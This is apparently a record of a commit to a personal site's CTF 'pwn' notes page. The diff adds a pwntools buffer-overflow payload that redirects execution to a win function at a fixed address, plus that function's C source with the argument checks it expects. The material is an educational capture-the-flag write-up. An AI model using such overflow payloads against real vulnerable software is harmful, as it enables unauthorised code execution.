

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 5851 px. Shown: the top 1373 px of the window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 6565 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -269,3 +269,31 @@ pwndbg> disassemble win
 Dump of assembler code for function win:
    0x08049296 <+0>:     endbr32
 ```
+
+```python
+from pwn import p32
+import sys
+payload = b"A"*112 + p32(0x08049296)
+sys.stdout.buffer.write(payload)
+```
+
+This jumps to the win function but segfaults. Let's look at the win function:
+
+```c
+void win(unsigned int arg1, unsigned int arg2) {
+  char buf[FLAGSIZE];
+  FILE *f = fopen("flag.txt","r");
+  if (f == NULL) {
+    printf("%s %s", "Please create 'flag.txt' in this directory with your",
+                    "own debugging flag.\n");
+    exit(0);
+  }
+
+  fgets(buf,FLAGSIZE,f);
+  if (arg1 != 0xCAFEF00D)
+    return;
+  if (arg2 != 0xF00DF00D)
+    return;
+  printf(buf);
+}
+```
````
